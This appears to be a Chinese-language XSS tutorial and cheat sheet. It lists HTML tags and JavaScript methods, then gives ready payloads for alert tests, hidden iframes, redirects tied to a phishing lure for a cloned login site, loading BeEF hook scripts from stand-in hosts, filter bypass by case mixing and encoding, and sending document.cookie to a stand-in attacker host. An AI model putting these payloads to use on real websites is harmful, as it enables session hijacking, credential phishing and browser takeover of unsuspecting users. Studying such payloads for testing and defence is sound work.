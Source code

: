 ## 构造 XSS 脚本

### 常用的 HTML 标签

```html
<iframe> iframe元素会创建包含另外一个文档的内联框架(即行内框架)
<textarea> 定义多行的文本输入控件
<img> 向网页中嵌入一幅图像
<script> 用于定义客户端脚本，比如JavaScript；script元素既可以包含脚本语句，也可以通过src属性指向外部脚本文件；必须的type属性规定脚本的MIME类型；JavaScript的常见应用是图像操作、表单验证以及动态内容更新
```

### 常见 JavaScript 方法

```javascript
alert 显示带有一条指定消息和一个确认按钮的警告框
window.location 获得当前页面的地址(URL)，并把浏览器重定向到新的页面
location.href 返回当前显示的文档的完整URL
onload 一张页面或一幅图像完成加载
onsubmit 确认按钮被点击
onerror 在加载文档或图像时发生错误
```

### 构造 XSS 脚本

```html
# 弹框警告
# 实现弹框提示，一般作为漏洞测试或者演示使用，类似SQL注入漏洞测试中的单引号'，一旦此脚本能执行，也就意味着后端服务器没有对特殊字符做过滤<>/'，可证明这个页面位置存在XS漏洞
<script>alert('xss')</script>
<script>alert(document.cookie)</script>

# 页面嵌套
<iframe src=http://www.baidu.com width=300 height=300></iframe>
# 隐藏他
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>

# 页面重定向
<script>window.location="http://www.baidu/com"</script>
<script>location.href="http://www.baidu.com"</script>

# 弹框警告并重定向
<script>alert("我们的网站已升级，请移步到新的网站");location.href="http://www.baidu.com"</script>
# 结合一些社工的思路，例如通过网站内部私信的方式将其发给其他用户，如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户(克隆网站收集账户)

# 访问恶意代码
<script src="http://xxx/hook.js"></script>
# 结合BeEF手机用户的cookie
<script src="http://BeEF_IP:3000/hook.js"></script>

# 巧用图片标签 - 隐蔽
<img src="#" onerror=alert('xss')>
<img src="javascript:alert('xss');">
<img src="http://BeEF_IP:3000/hook.js"></img>

# 绕开过滤的脚本
# 大小写
<ScrIpt>alert('xss')</SCRipt>
# 字符编码 采用URL、Base64等编码 
# 将 javascript:alert('xss'); 转码
<a href="&#106;&#97;">嘿嘿</a>

# 收集用户cookie
# 打开新窗口并且采用本地cookie访问目标网页
<script>window.open("http://www/hacker.com/cookie.php?cookie="+document.cookie)</script>
```